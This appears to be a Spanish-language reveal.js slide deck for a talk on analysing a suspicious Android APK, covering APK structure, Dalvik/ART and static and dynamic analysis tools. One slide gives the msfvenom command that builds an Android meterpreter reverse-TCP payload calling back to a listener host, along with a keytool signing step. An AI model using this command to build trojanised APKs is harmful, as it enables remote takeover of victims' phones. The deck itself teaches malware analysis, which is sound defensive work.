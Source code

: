 ```yaml
---
title: 'Me compartieron un APK'
theme: night
highlightTheme: monokai
revealOptions:
    transition: 'slide'
---
```

## Analizando un apk sospechoso
#### Tony Palma
---


<!-- .slide: style="text-align: left;"> -->
### About Me

Me dedico a la consultoría de TI, casado, 31 años.

- Entusiasta de infosec
- CTF Player (Mayas)
- FLOSS
- HTB
- *Disfrutar una buena taza de café* **o una cerveza bien fria**.

---


<!-- .slide: style="text-align: left;"> -->
### Qué pasó la sesión pasada?

La sesión pasada Javier nos demostró que fácil es colocar un meterpreter en un APK y que con técnicas de ingeniería social, era capaz de tomar el control de nuestro móvil.

Hoy estaremos analizando una muestra de ese malware.

---


<!-- .slide: style="text-align: left;"> -->
### Generacion del APK Malicioso

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.99.1 LPORT=4001 -o miau.apk
keytool -genkey -v -keystore key.Keystore -alias miau -keyalg RSA -keysize 2048 -validity 10000
``` 
etc


---


<!-- .slide: style="text-align: left;"> -->
### Agenda

* Un poco de teoria sobre como funcionan las aplicaciones sobre android
* Como armar un laboratorio rápido
* Que tanto podemos encontrar en el apk infectado

---


<!-- .slide: style="text-align: left;"> -->
### Android Application Package

* Archivo comprimido (ZIP)
* Estructura definida de directorios y archivos
* Control de permisos y características de la aplicación por XML
* Archivos precompilados por arquitectura, recursos no compilados y recursos de aplicaciones
* Archivo DEX (Dalvik Executable Format)


---


### Android Application Package
![Diagrama de estructura de directorios y archivos](/img/content1.jpeg)

---


<!-- .slide: style="text-align: left;"> -->
### Dalvik Virtual Machine

* No usa Java bytecode
* Los archivos DEX corren sobre la DVM
* Podemos decompilar estos archivos class en una aproximación (smali) a Java Class

Desde Android 5.0, Dalvik ha sido remplazado por the Android Runtime (ART)

---


<!-- .slide: style="text-align: left;"> -->
### Analisis de Malware

* Análisis estático
  - JADX, JD, JEB
  - dextools (d2j)
* Análisis dinámico
  - Android-sdk
  - Emuladores
  - Sandbox local y remoto

---


### Reverse Engineering
![Reverse Engineering](/img/toolmap.png)

---


<!-- .slide: style="text-align: left;"> -->
## Otras herramientas importantes

* Frida
* MobSF
* ghidra
* cuckoo for Android
* [https://github.com/ashishb/android-security-awesome](https://github.com/ashishb/android-security-awesome)

---


<!-- .slide: style="text-align: left;"> -->
## Apliquemos conceptos
